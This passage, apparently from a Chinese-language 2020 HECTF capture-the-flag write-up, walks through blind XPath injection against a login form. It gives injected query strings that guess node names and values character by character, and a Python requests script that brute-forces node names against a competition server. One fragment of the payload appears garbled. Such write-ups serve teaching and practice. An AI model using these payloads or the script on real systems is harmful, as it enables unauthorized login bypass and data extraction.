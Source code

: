 `127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=2]),1,1)='s' or '1'='1&pwd=fake`

result: users,secret

重复上述步骤,直到猜解出所有节点.最后来猜解节点中的数据或属性值.

猜解id为1的user节点下的username值,

`127.0.0.1/xpath/index.php?name=1' or substring(/root/users/user[id=1]/username,1,1)='a' or '1'='1&pwd=fake`

...

result: admin

---

写脚本开始跑
首先判断根下节点数
因为是GET传参，直接访问`http://114.55.165.246:8082/?username=1' or count(/*)=1 or '1'='1&password=1&submit=登录`
![image-20201129160726706](2020-HECTF-Write-up/image-20201129160726706.png)

这个结果应该是return 1，即根下有一个节点

如果换成`...username=1' or count(/*)=2 or '1'='1...`则会返回登录失败，即结果为return 0.

继续猜测第一级节点，用脚本跑
```python
# -*- coding: utf-8 -*-
import requests
import re

baseurl = "http://114.55.165.246:8082/?username="

s = "qwertyuiopasdfghjklzxcvbnm1234567890"

result = []

for j in range(1,10):
    flag = 0
    for i in range(0, 36):
        payload = "1' or substring(name(/!XXXX!*[position()=1]),"
        payload += str(j)
        payload += ",1)='"
        payload += s[i]
        payload += "' or '1'='1"
        end = "&password=admin&submit=登录"

        url = baseurl + payload + end

        res = requests.get(url).content.decode("utf-8").split("</html>")[1]
        if (re.search("you",res)):
            result.append(s[i])
            flag=1
            print(s[i] + "--------->" + res.replace("\r\n" , ""))
            break
```